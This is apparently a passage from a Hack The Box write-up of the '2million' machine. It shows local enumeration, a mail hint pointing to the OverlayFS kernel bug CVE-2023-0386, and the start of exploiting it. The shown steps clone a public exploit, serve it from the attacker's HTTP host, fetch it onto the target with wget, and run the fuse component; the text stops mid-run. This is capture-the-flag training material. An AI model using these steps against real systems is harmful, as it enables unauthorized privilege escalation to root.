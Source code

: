 ```
drwx------ 2 admin admin 4.0K Jun  6  2023 .cache
-rw-r--r-- 1 admin admin  807 May 26  2023 .profile
drwx------ 2 admin admin 4.0K Jun  6  2023 .ssh
-rw-r----- 1 root  admin   33 Mar 20 19:22 user.txt
```

The `admin` may not run sudo. Find `admin` owned file.

```
admin@2million:~$ find / -user admin -type f 2>/dev/null   
```

There is an interesting result:

- /var/mail/admin

```
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Therefore, get information about Linux kernel version.

```
admin@2million:~$ uname -r
5.15.70-051570-generic
```

[CVE-2023-0386](https://ubuntu.com/security/CVE-2023-0386) which a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system. [How it works?](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/)

[+] Exploit the Linux kernel vulnerability to performa a privilege escalation.

Using the exploit in this repository [sxlmnwb](https://github.com/sxlmnwb/CVE-2023-0386).

```
$ mkdir www; cd www; git clone https://github.com/sxlmnwb/CVE-2023-0386.git;
$ cd www/CVE-2023-0386 ; python3 -m http.server 8000
```

```
admin@2million:~/ wget -r -np http://10.10.16.85:8000/

admin@2million:~/10.10.16.85:8000$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
```